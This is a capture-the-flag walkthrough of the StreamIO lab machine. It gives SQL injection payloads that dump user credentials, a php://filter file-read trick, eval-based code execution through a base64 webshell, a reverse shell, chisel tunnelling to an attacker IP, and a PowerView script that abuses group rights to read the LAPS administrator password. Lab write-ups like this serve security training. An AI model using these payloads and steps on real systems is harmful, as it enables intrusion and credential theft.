# StreamIO

## Gaining Access

Nmap Scan:



### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.


Checking the cert, we can find another domain name:



We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.

### SQL Injection

The new domain leads us to a different website.



The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.



Within `search.php`, we can find a query function.



This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.



Using the STREAMIO database, we can dump out the tables present:



Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.



After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.



I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.



I also used `gobuster` to see what other files were present on this directory.



`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:



Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!



We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.

We can send this request here:



And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.



## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.



Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:



We can then port forward via `chisel`.

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.



I took a look at the streamio\_backup database and found credentials for a `nikk37` user.



The hash can be cracked via crackstation.



Then, we can `evil-winrm` in as this user:



### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.





Upon decrypting the `logins.json` file, we can find some more passwords.



Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.



Found that the `jdgodd` user had some permissions over the Core Staff group.



And members of this Core Staff were able to ReadLAPSPassword for the DC.



### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```



Afterwards, we can use `crackmapexec` modules to read the LAPS password.



Then, we can `evil-winrm` in as the administrator.


